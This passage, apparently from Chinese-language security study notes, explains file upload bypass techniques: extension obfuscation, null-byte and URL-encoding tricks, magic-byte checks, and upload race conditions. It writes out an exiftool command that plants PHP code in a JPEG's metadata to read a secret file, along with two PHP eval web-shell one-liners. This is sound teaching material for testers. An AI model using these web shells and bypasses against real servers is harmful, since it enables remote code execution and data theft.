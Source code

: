 ### 5. 混淆文件扩展名

* 大小写扩展名
*   双写扩展名

    ```shell
    exploit.p.phphp
    exploit.phphpp
    ```
* 特殊后缀名
* 提供多个扩展， 根据用于解析文件名的算法，以下文件可能被解释为 PHP 文件或 JPG 图像：`exploit.php.jpg`
* 添加尾随字符， 一些组件会去除或忽略尾随的空格、点等：`exploit.php.`
* 尝试对点、正斜杠和反斜杠使用 URL 编码（或双重 URL 编码）。如果在验证文件扩展名时该值未被解码，但稍后在服务器端被解码，这也可以让您上传本来会被阻止的恶意文件：`exploit%2Ephp`
* 在文件扩展名前添加分号或 URL 编码的空字节字符。如果验证是用 PHP 或 Java 等高级语言编写的，但服务器使用 C/C++ 中的低级函数处理文件，例如，这可能会导致文件名末尾的差异：`exploit.asp;.jpg`或`exploit.asp%00.jpg`
* 尝试使用多字节 unicode 字符，这些字符在 unicode 转换或规范化后可能会转换为空字节和点。 如果文件名被解析为 UTF-8 字符串，则 xC0 x2E、xC4 xAE 或 xC0 xAE 等序列可能会被转换为 x2E，但在用于路径之前会被转换为 ASCII 字符。

### 6. 文件内容验证有缺陷

#### 1. 文件头信息检测

与隐式信任`Content-Type`请求中指定的内容不同，更安全的服务器会尝试验证文件内容是否确实符合预期。

在图像上传功能的情况下，服务器可能会尝试验证图像的某些固有属性，例如尺寸。例如，如果您尝试上传一个 PHP 脚本，它根本就没有任何维度。因此，服务器可以推断它不可能是图片，并据此拒绝上传。

同样，某些文件类型可能始终在其页眉或页脚中包含特定的字节序列。这些可以像指纹或签名一样用于确定内容是否与预期类型匹配。例如，JPEG 文件总是以字节开头`FF D8 FF`。

这是验证文件类型的更可靠的方法，但即使这样也不是万无一失的。使用 ExifTool 等特殊工具，可以轻松创建在其元数据中包含恶意代码的多语言 JPEG 文件。

```shell
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

#### 2. 判断 \<? php

> *   绕过`<?`：
>
>     ```shell
>     <script language='php'>@eval($_POST[cmd]);</script>
>     ```
> *   绕过`php`：
>
>     ```shell
>     <?= @eval($_POST['cmd']);?>
>     ```

### 7. 利用文件上传竞争条件

`文件上传的位置和最终存储位置不在一个目录中`

* 服务器接收文件后，不再验证直接转移目录，我们可以使用爆破进行不断访问
* 服务器接收文件后，在进行验证，如果没有通过则删除
